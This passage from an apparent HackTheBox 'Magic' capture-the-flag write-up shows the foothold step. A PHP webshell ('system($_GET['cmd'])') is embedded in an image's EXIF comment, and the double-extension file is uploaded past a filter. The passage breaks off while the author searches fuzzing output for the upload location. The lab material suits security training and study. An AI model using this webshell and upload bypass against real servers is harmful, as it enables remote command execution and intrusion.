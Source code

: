 Lets try a different approach. 

### Exploitation/ Foothold

I'll download a picture of a dog from Google, rename the image dog.php.jpg and use exiftool to write a comment to the image containing a simple php webshell:

![htb_magic_google.png](../assets/magic_assets/htb_magic_google.png)

```
┌──(ryan㉿kali)-[~/HTB/Magic]
└─$ mv dog.jpg dog.php.jpg    
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/Magic]
└─$  exiftool -Comment='<?php system($_GET['cmd']); ?>' dog.php.jpg 
    1 image files updated
```

I find we can successfully upload this file.

![htb_magic_uploaded.png](../assets/magic_assets/htb_magic_uploaded.png)

But where is it uploaded to?

Going back to our directory fuzzing output:
